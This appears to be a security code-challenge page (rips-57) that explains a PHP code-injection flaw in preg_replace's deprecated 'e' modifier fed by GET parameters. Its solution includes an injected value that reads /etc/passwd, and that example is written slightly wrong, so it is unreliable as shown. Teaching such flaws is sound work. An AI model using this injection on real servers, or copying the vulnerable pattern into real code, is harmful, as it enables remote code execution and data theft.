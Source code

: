 ```yaml
---

title: rips-57
author: raxjs
tags: [php]

---
```


$DESCRIPTION

<!--more-->
{{< reference src="https://twitter.com/ripstech/status/1162396599416324100" >}}

# Code
{{< code language="php"  title="Challenge" expand="Show" collapse="Hide" isCollapsed="false" >}}
header("Content-Type: text/plain");

function complexStrtolower($regex, $value) {
    return preg_replace(
        '/(' . $regex . ')/ei',
        'strtolower("\\1")',
        $value
    );
}

foreach($_GET as $regex => $value) {
    echo complexStrtolower($regex, $value) . "\n";
}

{{< /code >}}

# Solution
{{< code language="php" highlight="" title="Solution" expand="Show" collapse="Hide" isCollapsed="true" >}}
header("Content-Type: text/plain");

function complexStrtolower($regex, $value) {
    return preg_replace(
        '/(' . $regex . ')/ei',                   // 2) regex modifier 'e' is used for evaluation
        'strtolower("\\1")',                      // 3) php funciton is called with back reference, code exec here
        $value
    );
}

foreach($_GET as $regex => $value) {              // 1) $regex and $value = user input
    echo complexStrtolower($regex, $value) . "\n";
}

// example:
echo complexStrtolower('.*', 'a");eval(\'cat /etc/passwd\');//');
// the second parameter of preg_replace will become: 
//    strtolower("a");eval('cat /etc/passwd');//")strtolower("")
// the 'e' modifier is deprecated anyway...


{{< /code >}}